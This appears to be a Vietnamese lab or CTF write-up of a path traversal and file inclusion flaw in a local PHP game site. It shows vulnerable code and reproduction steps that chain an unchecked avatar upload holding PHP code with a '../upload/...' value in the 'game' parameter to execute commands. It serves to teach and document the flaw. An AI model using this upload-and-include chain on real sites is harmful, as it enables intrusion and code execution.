




# PATH TRAVERSAL ở localhost:8094
### 1. Tổng quan
lv4 là website có 3 chức năng chính:

Hall of fame: nơi hiển thị bảng xếp hạng người chơi

Game: khu bắt đầu trò chơi

Profile: nơi upload file avt

### 2. Phạm vi
### 3. Lỗ hổng
#### Description
localhost:8094 cho phép ta chơi game với game mặc định là fatty bird 1
#### Impact
Tại đây, kẻ tấn công có thể thay đổi giá trị của param `game` và di chuyển tới **Document Root**
#### Root-cause analysis
Trong mã nguồn `src/game.php`, người chơi không chọn game thì server sẽ mặc định game là `fatty-bird-1.html` và người chơi đổi game thì phải thay đổi giá trị của param `game` trong url

    if (!isset($_GET['game'])) {
        header('Location: /game.php?game=fatty-bird-1.html');
        die();
    }
    $game = $_GET['game'];
    

(1) Cũng trong mã nguồn `src/game.php`, ván game sẽ được chạy bằng hàm `include`,  và cũng vì vậy mà biến `$game`lại được truyền thẳng vào hàm `include` mà không được sàng lọc, dẫn tới người chơi có thể `chạy/execute bất kì file nào trên hệ thống`.

    <?php include './views/' . $game; ?>

(2) Trong mã nguồn `src/profile`, file người chơi up lên sẽ có tên là avatar.jpg, trong khi đó nội nội dung file không bị kiểm tra nên hoàn toàn ta có thể chèn mã php vào bên trong

    $response = "";
    if (isset($_FILES["fileUpload"])) {
        move_uploaded_file($_FILES["fileUpload"]["tmp_name"], "/var/www/html/upload/" . $_SESSION["name"] . "/avatar.jpg");
    $response = "Success";
  }
Từ (1) và (2) ta sẽ upload 1 file bất kì chứa code php, sau đó execute nó thông qua hàm include 
#### Steps to reproduce
1. Upload file test.txt 

Với nội dung file test.txt

    <?php system('ls -la /') ?>

2. Thay đổi giá trị của param game là: 

    `/game.php?game=../upload/done/avatar.jpg`

